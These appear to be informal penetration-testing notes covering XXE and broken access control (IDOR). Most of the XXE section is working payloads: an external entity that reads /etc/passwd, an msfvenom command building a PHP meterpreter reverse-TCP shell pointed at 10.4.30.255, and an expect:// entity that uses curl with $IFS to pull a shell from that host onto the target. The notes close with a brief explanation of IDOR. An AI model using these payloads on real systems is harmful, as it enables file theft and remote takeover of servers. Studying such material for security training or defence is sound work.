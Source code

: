 


## XXE

we canot use whitespaces in this attack so either we can use the $IFS command instead of a space

#### THis is used to read local files on server

Either place this payload in burp suite content portion if the request is dealing with xml or we can also upload a xml file with this payload and get to execute this. We may need to bypass upload restrictions because xml files are not generally allowed.
The variable names starting & sign in website indicates xml and xml parsing so we can perform a xxe attack

 <!- - ?xml version="1.0" ?- ->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userinfo>
<user>
&ent;
</user>
</useinfo>

we can also try different payloads




WE can also use the above command and replace file with expect command

-  Remote xxe


we can use this to upload a shell to server

instead of .php shell we should make .txt shell with msfvenom because these attacks sometimes run the php shell 
on our machine

> msfvenom -p php/meterpreter/reverse_tcp LHOST=10.4.30.255 LPORT=6969 -f raw > shell.txt

<!- - ?xml version="1.0" ?- ->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://curl$IFS'10.4.30.255:80/shell.php'"> ]>
<userinfo>
<user>
&ent;
</user>
</useinfo>


## Broken Access controls
The goal of this is to either see data of other users or act on behalf of them

This vulneribilty can also be majorly refered as IDORS (insecure direct object references). In this attack we are able to access data or privileges of a user which we should not have access to. Or if we can access a directory which should be restricted to low priv users. like in a url we have ?id=4 and if we change it to 5,we can see data of another user which we should not be able to see
